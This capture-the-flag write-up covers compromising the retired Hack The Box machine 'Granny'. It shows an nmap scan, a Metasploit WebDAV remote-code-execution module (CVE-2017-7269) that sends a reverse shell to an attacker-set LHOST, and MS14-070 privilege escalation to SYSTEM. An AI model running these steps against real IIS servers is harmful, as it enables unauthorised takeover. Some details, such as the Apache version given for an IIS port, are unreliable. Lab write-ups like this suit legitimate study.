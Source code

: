 ![logo](/logo.png)

# [Granny- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 12 Apr 2017 as the twelfth machine on HTB,Granny created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Microsoft-IIS/6.0
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/granny 10.10.10.15
```

###### Output 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Granny/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/granny 10.10.10.15                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 18:34 EAT
Nmap scan report for 10.10.10.15
Host is up (0.33s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Tue, 13 Aug 2024 15:35:35 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Type: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.69 seconds
```

looking at the results  we find out that there is 1 ports open and its a `Windows`and its running an `Microsoft IIS httpd 6.0`. 

port[80]-  httpd 2.4.18

when we naviagate to [http://10.10.10.15](http://10.10.10.15) we find a page that say it under construction 

 ![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Granny/Screenshots/granny.png)

so we know the machine version so what we are going to do is to search for the exploit 

```sh
searchsploit Microsoft IIS 6.0 
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Granny/Screenshots/searchsploit.png)

Some searching reveals a remote code execution vulnerability (CVE-2017-7269). There is a proof of concept that requires some modification, as well as a Metasploit module. Lets examine the Remote Buffer Overflow.After Examining the exploit we now Import it to our working directory.

# Exploitation

Executing the Metasploit module `windows/iis/iis_webdav_scstoragepathfromurl` immediately grants a shell.

```sh
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.15
set RPORT 80
set LHOST 10.10.14.15
run
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Granny/Screenshots/meterpreter.png)

looking at `sysinfo` it refuse because of access probably we are in the 32-bit meterpreter that does not have privillages .We noticed that it running a 32 bit meterpreter so lets migrate to a 32 bit meterpreter with `NT Authority` and be able to run a `local suggester`

After migrating we can now be able to run `sysinfo`

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Granny/Screenshots/sy64.png)

now i run suggester to find exploits which are vulnerable

# Privillage Exploitation

```sh
search local_exploit_suggester
use multi/recon/local_exploit_suggester
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Granny/Screenshots/eploits.png)

looking at the results we find that their are a couple of exploits. In this case lets try this exploit `exploit/windows/local/ms14_070_tcpip_ioctl`

```sh
use exploit/windows/local/ms14_070_tcpip_ioctl
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Granny/Screenshots/msf.png)

and just that way we get shell

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Granny/Screenshots/shell.png)

we can get the user flag from `C:\Documents and Settings\Lakis\Desktop`  and the root flag from `C:\Documents and Settings\Administrator\Desktop\root.txt`

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Granny/Screenshots/root.png)

	-------------------------END successful attack @lesley----------------------
